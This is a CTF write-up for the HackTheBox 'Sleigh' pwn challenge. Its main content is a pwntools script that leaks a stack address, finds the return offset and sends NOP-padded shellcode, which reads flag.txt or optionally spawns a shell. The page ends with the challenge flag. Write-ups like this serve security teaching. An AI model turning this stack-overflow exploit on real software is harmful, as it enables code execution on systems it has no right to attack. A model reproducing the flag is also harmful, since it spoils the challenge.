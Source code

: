 ```yaml
---
name: Sleigh (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Sleigh (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Sleigh

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/deg0CQwwN-M/0.jpg)](https://youtu.be/deg0CQwwN-M?t=2843s "HTB Cyber Apocalypse CTF 2021: Sleigh")

## Challenge Description

> The Elves have messed up with Santa's sleigh! Without it, he will not be able to deliver any gifts!! Help him repair it and save the holidays!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    p = process(exe)
    p.sendlineafter(b'>', b'1')  # Chase joker
    p.sendlineafter(b'>', payload)  # Cyclic pattern
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './sleigh'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(500))

# Start program
io = start()

# Get the stack address (where out navigation commands will go)
io.sendlineafter(b'>', b'1')
io.recvline()
stack_addr = int(re.search(r"(0x[\w\d]+)", io.recvlineS()).group(0), 16)
info("leaked stack_addr: %#x", stack_addr)

# Need to pop registers at the beginning to make room on stack
shellcode = asm(shellcraft.popad())
# Build shellcode (cat flag.txt or spawn shell)
shellcode += asm(shellcraft.cat('flag.txt'))
# shellcode += asm(shellcraft.sh())
# Pad shellcode with NOPs until we get to return address
padding = asm('nop') * (offset - len(shellcode))

# Build the payload
payload = flat([
    padding,
    shellcode,
    stack_addr
])

io.sendlineafter(b'>', payload)  # Chase joker

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}`
